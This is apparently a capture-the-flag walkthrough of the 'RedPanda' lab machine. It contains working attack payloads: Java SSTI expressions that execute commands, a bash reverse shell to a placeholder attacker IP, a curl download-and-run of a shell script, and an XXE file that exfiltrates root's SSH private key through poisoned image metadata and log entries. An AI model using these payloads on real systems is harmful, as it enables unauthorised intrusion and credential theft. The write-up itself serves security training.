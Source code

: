 # @author : M3tr1c_r00t
## RedPanda!
![RedPanda](https://user-images.githubusercontent.com/99975622/205444975-3447a92f-d56f-4465-9544-52a6585c047a.png)


### Enumeration...
nmap
![Screenshot_2022-11-20_15_38_51](https://user-images.githubusercontent.com/99975622/205445009-3f8ddebc-3c24-46b9-9fac-2c42433e57c1.png)
Looking at the nmap scan, only two ports are open...
Not having anything to useful from the nmap scan, lets visit the webpage and have a look at it.
![Screenshot_2022-11-20_15_39_16](https://user-images.githubusercontent.com/99975622/205445026-5d27a9dc-1c1a-43ae-be88-ec79661dc98a.png)
The site asks for some input for a panda name,  but it only seems to give output on some specific ones in its database.
On just sending empty data, we get a response...
![Screenshot_2022-11-20_15_39_25](https://user-images.githubusercontent.com/99975622/205445029-82573e84-7b15-4627-ae13-a4b8bca79b31.png)

After a bit of interaction with the site, i finally got a hold on how to gain access onto the system....
Plus, if you would have checked your wappalyzer extension, you would have noticed the system was running on a java kind of framework...

### SSTI
Finally got a foothold to work upon....
![image](https://user-images.githubusercontent.com/99975622/205456530-7d222419-936b-4b8c-af3b-5051c5ec7a92.png)
On trying to see id there's a SSTI vulnerability, if realized we could get a response while using the "*" special character...

![Screenshot_2022-11-20_15_40_23](https://user-images.githubusercontent.com/99975622/205445039-26d98841-5551-4ea9-9a22-6e75a0db605f.png)
The next step was to get a reverse shell... 
Took me a while to get a working code to help us get the reverse shell, but thanks to pentestmonkey's github repo, we got one...
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("cat /etc/passwd ")}
```
Trying the above code, it works....


Getting reverse shell,
uploading our reverse shell script.
![Screenshot_2022-11-20_15_46_11](https://user-images.githubusercontent.com/99975622/205445066-872fe492-1a70-4280-8216-943e0b4a325f.png)

I had some issues with getting the reverse shell using a one liner, so  we can upload a file and save it in the tmp directory then run bash directly on the file...

##### Code to put in the shell.sh file
```
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'
```
Open a httpserver via python ....
```
python -m http.server 8000
```
Then upload your shell script....

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl YOUR_IP:8000/shell.sh --output /tmp/shell.sh ")}
```
**Getting our reverse shell...**
<br> Make sure to set your listener.... 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("bash /tmp/shell.sh")}
```
and boom! 
![Screenshot_2022-11-20_15_47_26](https://user-images.githubusercontent.com/99975622/205457657-02e0bff9-1d54-490b-8cb6-d52aba8d8aa1.png)

**Getting user flag....**
<br>Navigate to the home directory and get your user flag!
![Screenshot_2022-11-20_15_49_02](https://user-images.githubusercontent.com/99975622/205457694-762cf23e-949e-4f26-9b6f-624854c03d3e.png)

### Priviledge Escalation...
**Running linpeas...**
![Screenshot_2022-11-20_16_09_37](https://user-images.githubusercontent.com/99975622/205457719-dd406a39-31dc-492b-8e22-9f4f7cce0718.png)
Linpeas didn't really give us any useful information so i moved on to pspy64 to check if there are any activities running in the background....

**Running pspsy64...**
on looking at some output by pspy64, we can see there's a command running as root on a certain jar file...
![Screenshot_2022-11-20_16_16_56](https://user-images.githubusercontent.com/99975622/205457844-617cb601-5b83-444b-9b0e-7a8e14cdff73.png)

Next step, we grab that jar file and have a look at it....

#### Reverse Engineering the jar file so as to have an idea of what's happening

![Screenshot_2022-11-20_16_18_10](https://user-images.githubusercontent.com/99975622/205457896-dea997a6-ba1c-41df-9056-a2f524b68740.png)
On opening the file using jd-gui, we can analyze the source code...

In the main function, we can see there's a file being read....
```
/opt/panda_search/redpanda.log
```
There's also a split function(at the beggining of the code...) that splits code from the log file into new lines when it comes accross the "|" character....
<br>The program then gets the artists name from the metadata of an image from the Artist attribute.....
<br>It then creates the xml file from using the artists name and then uses the "uri" function to update the views onto the xml file.....
<br>We can already see there's a vulnerability in that we can exploit from the xml file...
<br>
<br>**You can check out this vulnerability from snyk...**
<br>https://security.snyk.io/vuln/SNYK-JAVA-ORGJDOM-1311147

### Expoiting the jar file...
_**1). Add the artist metadata to a jpg file...**_
<br> Go to the internet and get a normal jpg file....
```
exiftool -Artist="../tmp/author_name"  file.jpg
```
Then upload this image file to the tmp directory
__**2). Create an xml file in the /tmp/ directory...**__
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>author_name</author>
  <image>
    <uri>/../../../../../../tmp/file.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>2</totalviews>
</credits>
```
Then save it as: **author_name_creds.txt

__**3). Update the log file's content to match us for our expoit...**__
```
echo "222||a||a||/../../../../../../tmp/file.jpg" > /opt/panda_search/redpanda.log
```

After that, check the contents of the the xml file after a while, you'll see the rsa key contents dumped there....


